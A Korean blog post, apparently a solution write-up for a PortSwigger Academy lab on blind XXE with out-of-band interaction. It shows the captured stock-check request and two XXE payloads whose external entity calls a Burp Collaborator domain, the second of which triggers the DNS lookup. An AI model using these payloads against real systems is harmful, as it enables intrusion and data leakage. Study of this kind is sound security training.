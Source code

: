 ```yaml
---
layout: post
title: "Burp Academy 문제풀이 - Blind XXE with out-of-band interaction"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, XXE]
toc: true
---
```


# 개요
- Blind XXE 로 out-of-band 통신 공격을 하는 예제이다. 
- 문제 주소: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction
- XXE 설명 주소: https://portswigger.net/web-security/xxe
- 난이도: PRACTITIONER (중간)

# 문제분석 
- 이전 문제와 마찬가지로 "Check stock" 기능으로 XXE가 가능하다. 
- XXE로 문제 서버를 외부도메인과 통신하도록  (out-of-band interaction) 하는 것이  가능하다. 
- XXE를 통해 특정 DNS 요청을 발생시키면 될 것 같다. 
- DNS 요청이 발생했다는 것을 알기 위해서 Burp Collaborator 서버를 사용한다. 
- [여기](https://portswigger.net/burp/documentation/collaborator){:target="_blank"}를 보면 디폴트 Burp Collaborator 서버의 도메인은 `*.burpcollaborator.net` 또는  `*.oastify.com` 라는 것을 알 수 있다. 

```
This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

Note
To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.
```

# 풀이 
이전 문제와 마찬가지로 "Check stock" 버튼 클릭시 발생하는 POST 요청의 바디 부분이 XML로 되어 있는 것을 알았다. 

```
POST /product/stock HTTP/1.1
Host: 0aa9007d0461bff2c00aaee6002e00b7.web-security-academy.net
Cookie: session=gBA3k6jT5f5DjHzCRpxVSxXg72sbIc5E
Content-Length: 107
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108", "Google Chrome";v="108"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://0aa9007d0461bff2c00aaee6002e00b7.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0aa9007d0461bff2c00aaee6002e00b7.web-security-academy.net/product?productId=5
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ko;q=0.8
Connection: close

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>5</productId><storeId>1</storeId></stockCheck>
```

## 1차 시도 
HTTPS 요청 하는 대상을 burpcollaborator.net의 임의의 서브도메인 xxetest를 지정한 `xxetest.burpcollaborator.net` 로 지정해서 요청해보았다. 

```xml 
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "https://xxetest.burpcollaborator.net"> ]>
<stockCheck>
	<productId>&xxe;</productId>
	<storeId>1</storeId>
</stockCheck>
```

응? `XML parsing error` 가 발생했다. XML 형식이 잘못된 건가?   
생각해보니 블라인드 XXE 문제이므로 XXE결과를 HTTP 응답에 포함시킬 필요는 없을 것 같다. 문제 서버가 외부로 DNS 요청을 하도록 만들기만 하면 되는 것이다. 

```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 19

"XML parsing error"
```

## 2차 시도 
페이로드에서 `&xxe;` 를 없애고 보내봤다. 

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "https://xxetest.burpcollaborator.net"> ]>
<stockCheck>
	<productId>5</productId>
	<storeId>1</storeId>
</stockCheck>
```

평범한 응답이 돌아온다. 
```
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Connection: close
Content-Length: 3

183
```

![Blind XXE Repater](/images/burp-academy-xxe-3-repeater.png)

여기서 웹 페이지를 보면 성공했다는 메세지가 보인다. 문제서버에서 burpcollaborator.net 도메인을 관리하는 DNS서버로 `xxetest.burpcollaborator.net` 도메인의 IP를 물어보는 DNS 쿼리가 발생한 것이다! 

![Blind XXE 성공](/images/burp-academy-xxe-3-success.png)

